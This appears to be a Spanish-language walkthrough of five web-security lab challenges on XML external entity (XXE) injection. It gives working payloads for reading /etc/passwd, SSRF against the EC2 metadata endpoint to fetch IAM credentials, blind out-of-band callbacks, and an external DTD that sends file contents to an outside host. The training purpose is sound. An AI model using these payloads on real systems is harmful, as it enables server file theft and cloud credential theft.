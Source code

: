 ## Reto 1: Explotación de XXE mediante entidades externas para recuperar archivos

Este laboratorio tiene una función de "Verificar stock" que analiza la entrada XML y devuelve cualquier valor inesperado en la respuesta.

Para resolver el laboratorio, inyecte una entidad externa XML para recuperar el contenido del /etc/passwd archivo. 
inyectamos una entidad que apunta al archivo /etc/passwd, el cual es devuelto en la respuesta cuando se intenta verificar un producto. Es una demostración clara de cómo una mala configuración del parser XML puede abrir la puerta a una fuga crítica de información en el servidor.


```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<stockCheck><productId>
&xxe;
</productId><storeId>1</storeId></stockCheck>
```

## Reto 2:Explotación de XXE para realizar ataques SSRF


Este laboratorio tiene una función de "Verificar stock" que analiza la entrada XML y devuelve cualquier valor inesperado en la respuesta.

El servidor de laboratorio está ejecutando un punto final de metadatos EC2 (simulado) en la URL predeterminada, que es http://169.254.169.254/ Este punto final se puede utilizar para recuperar datos sobre la instancia, algunos de los cuales podrían ser confidenciales.

Para resolver el laboratorio, explote la vulnerabilidad XXE para realizar un ataque SSRF que obtenga la clave de acceso secreta IAM del servidor desde el punto final de metadatos EC2. 

ientadas a realizar ataques de tipo SSRF (Server-Side Request Forgery). Aprovechamos el parser XML de la funcionalidad de comprobación de stock para que, en lugar de acceder a archivos locales, se conecte a un endpoint interno del servidor: la metadata de una instancia EC2 simulada en http://169.254.169.254/.

Mediante iteraciones en la URL de la entidad externa, accedemos progresivamente a los distintos directorios del endpoint hasta llegar a la ruta que expone las credenciales del rol IAM asignado a la máquina. Finalmente, logramos extraer la SecretAccessKey del servidor, evidenciando el riesgo real que supone una XXE con capacidad de SSRF mal controlada.

```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/" >]>

<stockCheck><productId>

&xxe;

</productId><storeId>1</storeId></stockCheck>
```

## Reto 3:  XXE ciego con interacción fuera de banda
Este laboratorio tiene una función de "Verificar stock" que analiza la entrada XML pero no muestra el resultado.

Puede detectar la vulnerabilidad ciega XXE activando interacciones fuera de banda con un dominio externo.

Para resolver el laboratorio, utilice una entidad externa para hacer que el analizador XML emita una búsqueda DNS y una solicitud HTTP a Burp Collaborator. 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "https://1vx3htf432deh2hslujax1w2xt3krafz.oastify.com" >]>
<stockCheck><productId>
&xxe;
</productId><storeId>1</storeId></stockCheck>
```

```html
<html><body>ueiq3gq24wgsiwuq86jrttzjjgigz</body></html>
```

## Reto 4: XXE ciego con interacción fuera de banda a través de entidades de parámetros XML

Este laboratorio tiene una función de "Verificar stock" que analiza la entrada XML, pero no muestra ningún valor inesperado y bloquea las solicitudes que contienen entidades externas normales.

Para resolver el laboratorio, utilice una entidad de parámetro para hacer que el analizador XML emita una búsqueda de DNS y una solicitud HTTP a Burp Collaborator.

utilizando una variante más sofisticada. En este caso, la aplicación bloquea las entidades externas tradicionales, lo que nos obliga a recurrir al uso de parameter entities, una técnica menos común pero igualmente poderosa.

El objetivo es forzar al analizador XML a realizar una solicitud externa, y para ello empleamos Burp Collaborator como canal para observar si el servidor realiza conexiones salientes. Si vemos actividad en Collaborator después de enviar nuestra carga, confirmamos la vulnerabilidad.

Este enfoque es especialmente útil en entornos donde se han implementado filtros para mitigar las XXE básicas, pero aún persisten configuraciones inseguras


```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://i0jkmakl8jivmjm9qbor2i1j2a82wskh.oastify.com" > %xxe;]>
<stockCheck><productId>
1
</productId><storeId>1</storeId></stockCheck>
```

## Reto 5: Explotación de XXE ciego para exfiltrar datos mediante un DTD externo malicioso

Este laboratorio tiene una función de "Verificar stock" que analiza la entrada XML pero no muestra el resultado.

Para resolver el laboratorio, exfiltra el contenido del /etc/hostname archivo.

Como la aplicación no muestra la respuesta del servidor, debemos forzar que este realice una petición externa que contenga los datos deseados.

Preparamos un archivo DTD en nuestro exploit server que define una entidad para leer el archivo local y otra para enviar su contenido mediante una petición HTTP a Burp Collaborator. Luego referenciamos esta DTD desde la carga XML enviada al stock checker.

Ya tenemos definido y alojado el archivo DTD en nuestro exploit server, y ahora utilizamos este recurso para finalizar la exfiltración del contenido del archivo /etc/hostname.

Repasamos cómo se estructura correctamente la carga XML que referencia esa DTD, y analizamos los resultados obtenidos en Burp Collaborator para verificar que la petición externa con los datos del archivo fue realizada correctamente.

En el Repeater de Burpsuite:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://exploit-0a6a00af040ff6f98062d9e301600012.exploit-server.net/exploit" > %xxe;]>
<stockCheck><productId>
1
</productId><storeId>1</storeId></stockCheck>
```

En el exploit-server de burpsuite:
- &#x25 significa (%)

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname"> 
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'https://adrcz2xdlbvnzbz1331jfaebf2lw9mxb.oastify.com/?content=%file'>"> %eval; 
%exfil;
```